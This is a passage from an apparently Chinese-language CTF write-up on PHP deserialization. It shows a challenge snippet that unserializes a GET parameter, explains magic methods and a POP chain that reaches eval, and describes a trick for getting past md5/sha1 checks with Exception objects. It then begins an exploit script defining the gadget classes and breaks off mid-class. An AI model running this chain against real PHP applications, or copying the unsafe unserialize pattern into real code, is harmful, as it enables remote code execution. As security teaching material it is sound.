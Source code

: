 ```

if(isset($_GET['love'])){
    $sail=$_GET['love'];
    unserialize($sail);
}
?>
```

* ### 知识扩展1：php魔术方法

```
__construct() -> 在创建类对象时自动调用
__destruct() -> 在销毁类对象时自动调用（在php结束时自动销毁类对象）
__wakeup() -> 在反序列化类对象时自动调用
__set($name, $value) -> 在尝试为类对象中无法访问的变量进行赋值时调用，$name为相应的无法访问的变量，$value为相应的将要为该变量赋的值
__get($name) -> 在尝试访问类对象中无法访问的变量时进行调用，$name为相应的无法访问的变量
__toString() -> 在尝试输出类对象时调用的函数，直接将对象转化为String类型
__call() -> 在尝试从外部调用一个私有类函数时触发的方法
__invoke() -> 在尝试用函数调用方式调用类对象时触发的方法
```

由于源码可知，需要通过`Titanic->Jack->Love->Rose`的调用方式进行调用，通过`Titanic`类中的`people->action`触发`Jack`类中的`__set`方法，从而通过调用`action()`触发`Love`类中的`__call`方法，以函数调用方式调用`Rose`类对象，触发`Rose`类对象中的`__invoke`方法，从而到达命令执行函数`eval`。

* ### 知识扩展2：通过php原生类`Exception`绕过md5与sha1检测
在php中，当对两个`Exception`类对象进行md5和sha1加密时，由于`Exception`类中的`__toString`魔术方法，当加密时仅会加密其message部分，而后面的部分会被忽略，因而可以通过该技巧绕过md5和sha1加密。

exp：

```
<?php

class Jack
{
    private $action=1;


    function __set($a, $b)
    {
        $b->$a();

    }

}

class Love {

    public $var;
    function __call($a,$b)
    {
        $rose = $this->var;
        call_user_func($rose);
    }

    private function action(){
        echo "jack love rose";
    }

}
class Titanic{
    public $people;
    public $ship;
    function __destruct(){

        $this->people->action=$this->ship;
```